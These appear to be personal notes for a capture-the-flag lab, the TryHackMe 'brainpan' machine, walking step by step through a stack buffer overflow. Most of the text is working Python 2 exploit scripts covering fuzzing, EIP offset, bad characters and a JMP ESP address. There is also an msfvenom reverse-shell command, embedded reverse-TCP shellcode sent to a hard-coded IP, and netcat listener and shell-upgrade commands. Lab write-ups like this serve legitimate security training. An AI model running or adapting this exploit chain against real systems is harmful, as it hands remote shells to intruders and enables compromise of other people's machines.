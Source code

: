 BoF when EXE is on Linux
***************************

Intro
#######
**This is based on Try Hack Me's brainpan**

Run an nmap scan and try to find the program port. Try and see if you can download it via website or smb.

Then you can create a script to fuzz the program. This is a python2 script of that. Whenever the program breaks, that number of bytes is when you need to attack. 

Once you download the program, put it in a Windows test environment, and launch the program using Immunity Debugger.

Fuzzer
#########

In brainpan, this crashes the program at 600 bytes.

.. code-block:: console

        #!/usr/bin/python

        import socket, time, sys

        size = 100

        while(size < 2500):

                try:

                        print(("\nSending evil buffer with %s bytes" % size))
                        buffer = "A" * size
                        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        ip= "10.0.0.178"
                        s.connect((ip, 9999))
                        s.send(buffer)
                        s.close()
                        size +=100
                        time.sleep(3)
                except:
                        print("\nCould not connect!")

                        sys.exit()

EUPoff1.py
##############

This results in using msf-pattern_create like so:

.. code-block:: console

   msf-pattern_create -l 600

You then create a file called whatever you want. I called it EIPoff.py . This is in python2

.. code-block:: console

        #!/usr/bin/python
        import os,socket
        try:
                print "[+] \nSending evil buffer..."
                buffer = <output of msf-pattern_create>
                s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
                ip = "Victim Machine IP"
                s.connect((ip, 9999))
                s.send(buffer)
                s.close()
                print "\n[+] Sending buffer of " + str(len(buffer)) + " bytes..."
                print "\n[+] Sending buffer: " + buffer
                print "\n[+] Done!"
        except:
                print "\n[+] Could not connect!"

You should see in Immunity Debugger that the EIP is a different number. In this case our `EIP is 35724134`


You than run `msf-patter_offset` for the second script. In this case it looks like this

.. code-block:: console

   msf-pattern_offset -l 600 -q <EIP_number>

This should match up with an offset. In this case the offset is 524.

You then make a second EIPoff by creating a python script named EIPoff2.py. Should look similar to this

.. code-block:: console

        #!/usr/bin/python
        import os,socket
        try:
                print "[+] \nSending evil buffer..."
                offset = "A" * 524
                eip = "B" * 4
                buffer = offset + eip
                s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
                ip = "10.0.0.178"
                s.connect((ip, 9999))
                s.send(buffer)
                s.close()
                print "\n[+] Sending buffer of " + str(len(buffer)) + " bytes..."
                print "\n[+] Sending buffer: " + buffer
                print "\n[+] Done!"
        except:
                print "\n[+] Could not connect!"

Rerun the script in Immunity Debugger, and then run the script above. You should see an output in `EIP of 42424242`. This means the 4 B's are in the EIP. 
                
EIPoff3.py
#################

The purpose of the below is to see if there is enough space for shellcode after EIP.

You then add this line after the eip variable from the previous script

.. code-block:: console

       shellcode = "C" * (1000 - len(offset) - len(eip))

You then change the buffer variable to look like this 

.. code-block:: console

        buffer = offset + eip + shellcode 

The `EDX` should show a lot of A's and the `ESP` should show a lot of C's.        
EIPoff4.py Bad Characters
##############################

Now we need to figure out the bad characters. In this case their is no bad characters. If there were, you would eliminate then from the badchars list. An example of how to check would be from the following below. This is a python2 script

.. code-block:: console

        import os,socket 
        badchars = ( 
        "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10" 
        "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" 
        "\x21\x22\x23\x24\x27\x28\x29\x2a\x2c\x2d\x2e\x2f\x30" 
        "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3e\x3f\x40" 
        "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" 
        "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" 
        "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" 
        "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" 
        "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" 
        "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" 
        "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" 
        "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" 
        "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" 
        "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" 
        "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" 
        "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" ) 
        
        try: 
                print "[+] \nSending evil buffer..." 
                offset = "A" * 524 
                eip = "B" * 4 
                buffer = offset + eip + badchars 
                s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) 
                ip = "10.0.0.178" 
                s.connect((ip, 9999)) 
                s.send(buffer) 
                s.close() 
                print "\n[+] Sending buffer of " + str(len(buffer)) + " bytes..." 
                print "\n[+] Sending buffer: " + buffer 
                print "\n[+] Done!" 
        except: 
                print "\n[+] Could not connect!" 

Mona
#####

In Immunity Debugger you would run this to find a valid dll/module

.. code-block:: console

   !mona modules

In the top left field in Immunity Debuger scroll down to find JMP ESP. The number in our case is 311712F3.

msfvenom
###########

You now run msfvenom to create the shell. It should look something like this

.. code-block:: console

   msfvenom -p linux/x86/shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker port> -f python -b "\x00"

EIPoff5.py
############

You then create a new file by copying the last one you did. It should look similar to this. Look at the script below to see where you put the stuff.

.. code-block:: console

        import os,socket
        #from msfvenom
        buf =  b""
        buf += b"\xb8\x4e\x7e\x59\x6d\xda\xd5\xd9\x74\x24\xf4\x5e\x33"
        buf += b"\xc9\xb1\x12\x31\x46\x12\x83\xee\xfc\x03\x08\x70\xbb"
        buf += b"\x98\xa5\x57\xcc\x80\x96\x24\x60\x2d\x1a\x22\x67\x01"
        buf += b"\x7c\xf9\xe8\xf1\xd9\xb1\xd6\x38\x59\xf8\x51\x3a\x31"
        buf += b"\xf1\xa3\xae\xd5\x6d\xa6\xce\xc4\x31\x2f\x2f\x56\xaf"
        buf += b"\x7f\xe1\xc5\x83\x83\x88\x08\x2e\x03\xd8\xa2\xdf\x2b"
        buf += b"\xae\x5a\x48\x1b\x7f\xf8\xe1\xea\x9c\xae\xa2\x65\x83"
        buf += b"\xfe\x4e\xbb\xc4"
        try:
                print "[+] \nSending evil buffer..."
                offset = "A" * 524
                # from JMP ESP number. You do it backwards
                eip = "\xf3\x12\x17\x31"
                # you do nops to avoid erros during decoding
                nops = "\x90" * 10
                buffer = offset + eip + nops + buf
                s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
                ip = "10.0.0.178"
                s.connect((ip, 9999))
                s.send(buffer)
                s.close()
                print "\n[+] Sending buffer of " + str(len(buffer)) + " bytes..."
                print "\n[+] Sending buffer: " + buffer
                print "\n[+] Done!"

        except:
                print "\n[+] Could not connect!"

Shell
#######

You then run a netcat shell like this to get a shell. Run the commands after the netcat command to get an interactive TTY shell.

.. code-block:: console

        nc -lvnp 4444
        python -c 'import pty; pty.spawn("/bin/sh")'
        bash -i

Use `sudo -l` to find commands that have sudo privileges. Then exploit it to get root        

        
